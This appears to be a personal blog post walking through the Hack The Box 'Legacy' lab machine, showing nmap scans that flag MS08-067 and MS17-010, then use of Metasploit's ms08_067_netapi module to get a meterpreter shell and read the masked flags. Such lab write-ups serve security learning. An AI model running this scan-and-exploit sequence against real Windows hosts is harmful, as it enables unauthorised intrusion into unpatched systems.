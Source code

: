 ```yaml
---                                                                                           
layout: post                                                                                  
title:  "HTB-Legacy"                                                                            
date:   2020-02-16 02:49:57 +0000                                                             
categories: HTB-Walkthrough                                                                   
---                           
```


![legacy](/assets/img/legacy.png)

Another beginner's box in HTB is Legacy, lets run nmap and see what we're dealing with...

` nmap -sCV -p- 10.10.10.4 |tee -a legacy.txt `

this scan is a bit like `-A`, it runs all the default nse scripts on the host, and looks for
service information.


```

 Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-06 13:01 GMT
Nmap scan report for 10.10.10.4
Host is up (0.12s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h00m00s, deviation: 1h24m50s, median: -5h00m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:3e:e1 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-06T12:05:37+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```

Ok, lets home in on the discovered ports...

```

root@kali:~/HTB/prep/legacy# nmap -p139,445 -sSV 10.10.10.4 --script=vuln
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-06 13:17 GMT
Nmap scan report for 10.10.10.4
Host is up (0.15s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```

Looks like this target is vulnerable to the old smb ms08_067_netapi exploit, and also the infamous ms17-010 EternalBlue exploit.
In this instence we're going to try the older netapi one, we'll keep the devistating EternalBlue for another box...

In the msfconsole we can use the `info` command to ...well...get more info!

```

msf5 exploit(windows/smb/ms08_067_netapi) > info

       Name: MS08-067 Microsoft Server Service Relative Path Stack Corruption
     Module: exploit/windows/smb/ms08_067_netapi
   Platform: Windows
       Arch: 
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Great
  Disclosed: 2008-10-28

Provided by:
  hdm <x@hdm.io>
  Brett Moore <brett.moore@insomniasec.com>
  frank2 <frank2@dc949.org>
  jduck <jduck@metasploit.com>

<--snip-->

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS   10.10.10.4       yes       The target address range or CIDR identifier
  RPORT    445              yes       The SMB service port (TCP)
  SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Payload information:
  Space: 408
  Avoid: 8 characters

Description:
  This module exploits a parsing flaw in the path canonicalization 
  code of NetAPI32.dll through the Server Service. This module is 
  capable of bypassing NX on some operating systems and service packs. 
  The correct target must be used to prevent the Server Service (along 
  with a dozen others in the same process) from crashing. Windows XP 
  targets seem to handle multiple successful exploitation events, but 
  2003 targets will often crash or hang on subsequent attempts. This 
  is just the first version of this module, full support for NX bypass 
  on 2003, along with other platforms, is still in development.

References:
  https://cvedetails.com/cve/CVE-2008-4250/
  OSVDB (49243)
  https://technet.microsoft.com/en-us/library/security/MS08-067
  http://www.rapid7.com/vulndb/lookup/dcerpc-ms-netapi-netpathcanonicalize-dos


```

Use the default payload with this one, no need to use the `set payload` command.
triggering the `exploit` gives us a meterpreter shell.

```

meterpreter > ipconfig

Interface  1
============
Name         : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1520
IPv4 Address : 127.0.0.1


Interface 65539
============
Name         : AMD PCNET Family PCI Ethernet Adapter - Packet Scheduler Miniport
Hardware MAC : 00:50:56:b9:3e:e1
MTU          : 1500
IPv4 Address : 10.10.10.4
IPv4 Netmask : 255.255.255.0

meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > cat root.txt
# 99xxxxxxxxxxxxxxxxxxxxxxxxx3

```

This exploit is impressive, we already have elevated privilages, and can access both the user and Administrator(root) flags.

```

meterpreter > dir
Listing: C:\Documents and Settings\john\desktop
===============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  32    fil   2017-03-16 06:19:49 +0000  user.txt

meterpreter > cat user.txt
# exxxxxxxxxxxxxxxxxxxxxxxxxf

```

1. scan Target
2. identify vulnerabilities
3. execute exploit to gain access and/or system/root privilages.
4. get flags


###################################
